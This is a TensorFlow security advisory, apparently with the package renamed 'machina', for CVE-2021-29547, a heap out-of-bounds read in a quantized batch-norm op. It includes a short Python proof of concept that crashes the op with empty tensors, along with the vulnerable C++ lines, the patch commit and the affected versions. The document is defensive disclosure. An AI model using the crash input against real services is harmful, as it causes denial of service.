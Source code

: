 ## TFSA-2021-035: Heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29547

### Impact
An attacker can cause a segfault and denial of service via accessing data
outside of bounds in `tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import machina as tf

t = tf.constant([1], shape=[1, 1, 1, 1], dtype=tf.quint8)
t_min = tf.constant([], shape=[0], dtype=tf.float32)
t_max = tf.constant([], shape=[0], dtype=tf.float32)
m = tf.constant([1], shape=[1], dtype=tf.quint8)
m_min = tf.constant([], shape=[0], dtype=tf.float32)
m_max = tf.constant([], shape=[0], dtype=tf.float32)
v = tf.constant([1], shape=[1], dtype=tf.quint8)
v_min = tf.constant([], shape=[0], dtype=tf.float32)
v_max = tf.constant([], shape=[0], dtype=tf.float32)
beta = tf.constant([1], shape=[1], dtype=tf.quint8)
beta_min = tf.constant([], shape=[0], dtype=tf.float32)
beta_max = tf.constant([], shape=[0], dtype=tf.float32)
gamma = tf.constant([1], shape=[1], dtype=tf.quint8)
gamma_min = tf.constant([], shape=[0], dtype=tf.float32)
gamma_max = tf.constant([], shape=[0], dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/machina/machina/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/machina/core/kernels/quantized_batch_norm_op.cc#L176-L189)
assumes the inputs are not empty:

```cc
const float input_min = context->input(1).flat<float>()(0);
const float input_max = context->input(2).flat<float>()(0);
...
const float mean_min = context->input(4).flat<float>()(0);
const float mean_max = context->input(5).flat<float>()(0);
...
const float var_min = context->input(7).flat<float>()(0);
const float var_max = context->input(8).flat<float>()(0);
...
const float beta_min = context->input(10).flat<float>()(0);
const float beta_max = context->input(11).flat<float>()(0);
...
const float gamma_min = context->input(13).flat<float>()(0);
const float gamma_max = context->input(14).flat<float>()(0);
```

If any of these inputs is empty, `.flat<T>()` is an empty buffer, so accessing
the element at index 0 is accessing data outside of bounds.

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/machina/machina/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
